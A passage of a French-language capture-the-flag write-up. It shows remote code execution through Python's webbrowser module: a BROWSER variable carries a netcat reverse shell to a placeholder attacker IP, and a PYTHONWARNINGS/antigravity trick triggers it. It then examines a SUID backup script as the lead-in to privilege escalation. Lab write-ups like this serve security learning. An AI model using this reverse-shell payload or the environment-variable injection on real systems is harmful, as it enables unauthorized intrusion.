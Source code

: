 ```python
def open(self, url, new=0, autoraise=True):
    # ...
    cmdline = [self.name] + [arg.replace("%s", url)
                                for arg in self.args]
    try:
        # ...
        p = subprocess.Popen(cmdline, close_fds=True)
        return not p.wait()
    except OSError:
        return False
```

Nous pouvons ainsi exécuter du code arbitraire, dans lequel toute occurence de `%s` sera remplacée par la string `"http://xkcd.com/353/"`!

Cela sera enfin envoyé dans `subprocess.Popen`. Pour obtenir un reverse shell, nous optons pour le payload utilisant `netcat-traditional`: `nc -c sh <IP_ATTACKER> 8000 #%s`. Remarquez que l'endroit où nous demandons à python de remplir l'URL est derrière un dièse, qui représente le début d'un commentaire de code en `bash`.

Dans l'interface, nous définissons les champs de cette manière:

```bash
PYTHONWARNINGS=all:0:antigravity.x:0:0
BROWSER=nc -c sh "<IP_ATTACKER>" 80 #%s
```

Puis nous déclenchons le lancement du "script de backup", `scripts/backup.py` depuis l'endpoint associé, et un reverse shell arrive chez nous!

Plus qu'à `cat rceflag.txt`, et c'est gagné.

## Troisième étape: élévation de privilèges sur la machine

L'utilisateur flask-app a les accès en lecture sur /var/log.

Dans son home (`/home/flask-app`) se trouve un script bash avec le bit SUID défini, et ce script peut s'exécuter avec les droits de l'utilisateur `root`.

Le script est très simple et la logique passe sur 3 lignes:

```bash
FILENAME="/home/flask-app/$(date -u +%Y-%m-%dT%H:%M:%S%Z).log"  # ici, on définit une variable qui sera le nom d'un fichier de backup
find / -type f -iname "*.app.log" -exec cat {} + > "$FILENAME"  # ici, on cherche récursivement depuis la racine (!) tous les fichiers de type "fichier"
                                                                # qui matchent le pattern "*.app.log", nous les affichons dans stdout qui est redirigé
                                                                # dans le fichier "$FILENAME"
chmod a+r "$FILENAME"                                           # Le fichier écrit peut être lu par tout le monde
```

### *Race condition* dans `find(1)`
